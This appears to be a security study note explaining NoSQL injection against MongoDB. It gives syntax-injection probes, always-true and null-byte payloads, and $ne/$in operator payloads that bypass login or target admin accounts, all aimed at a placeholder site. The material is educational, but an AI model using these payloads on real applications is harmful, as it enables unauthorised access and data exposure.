 # NoSQL injection

## NoSQL databases

* They are designed to handle large volumes of unstructured or semi-structured data.
  * benefits in terms of scalability, flexibility, and performance
* Like SQL databases, users interact with data in NoSQL databases using queries but many NoSQL databases use a wide range of query languages instead of a universal standard like SQL (ex. JSON, XML)

### NoSQL database models <a href="#nosql-database-models" id="nosql-database-models"></a>

* Document stores - These store data in flexible, semi-structured documents. They typically use formats such as JSON, BSON, and XML, and are queried in an API or query language. Examples include MongoDB and Couchbase.
* Key-value stores - These store data in a key-value format. Each data field is associated with a unique key string. Values are retrieved based on the unique key. Examples include Redis and Amazon DynamoDB.
* Wide-column stores - These organize related data into flexible column families rather than traditional rows. Examples include Apache Cassandra and Apache HBase.
* Graph databases - These use nodes to store data entities, and edges to store relationships between entities. Examples include Neo4j and Amazon Neptune.

### Types of NoSQL injection <a href="#types-of-nosql-injection" id="types-of-nosql-injection"></a>

1. Syntax injection - when you can break the NoSQL query syntax, enabling the injection (likeSQLi).
2.  Operator injection - when you can use NoSQL query operators to manipulate queries.



## NoSQL syntax injection <a href="#nosql-syntax-injection" id="nosql-syntax-injection"></a>

* Consider: `https://insecure-website.com/product/lookup?category=fizzy`
* This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
  * `this.category == 'fizzy'`
* Inject: `'`
  * `this.category == '''`
    * If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.&#x20;
* Confirm this by submitting a valid query string in the input, ex: `\'`:
  * `this.category == '\''`
    * If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

### **Confirming conditional behavior**

* false condition: `' && 0 && 'x`
* true condition: `' && 1 && 'x`&#x20;

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```

* If the application behaves differently suggests that the false condition impacts the query logic, but the true condition doesn't.



### **Overriding existing conditions**

* Always true: `'||1||'`
* `https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27`
* `this.category == 'fizzy'||'1'=='1'`
* The modified query returns all items (all the products in any category).
* WARN: If an application uses it when updating or deleting data, for example, this can result in accidental data loss.



* MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored.
* `this.category == 'fizzy' && this.released == 1`
* `https://insecure-website.com/product/lookup?category=fizzy'%00`
* `this.category == 'fizzy'\u0000' && this.released == 1`
* If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1\


## NoSQL operator injection

*   Examples of MongoDB query operators

    * `$where` - Matches documents that satisfy a JavaScript expression.
    * `$ne` - Matches all values that are not equal to a specified value.
    * `$in` - Matches all of the values specified in an array.
    * `$regex` - Selects documents where values match a specified regular expression.


* JSON examplee:
  * `{"username":"wiener"}` -> `{"username":{"$ne":"invalid"}}`
* URL parameters:
  * `username=wiener` -> `username[$ne]=invalid`
* If this doesn't work, you can try the following (or use Content Type Converter burp exts):
  1. Convert the request method from `GET` to `POST`.
  2. Change the `Content-Type` header to `application/json`.
  3. Add JSON to the message body.
  4. Inject query operators in the JSON.



* Example:`{"username":"wiener","password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection.
* To target an account, you can construct a payload that includes a known username, or a username that you've guessed: `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`\
  \




\
\


\


\


\
\


\


\


\


\


\


\


\
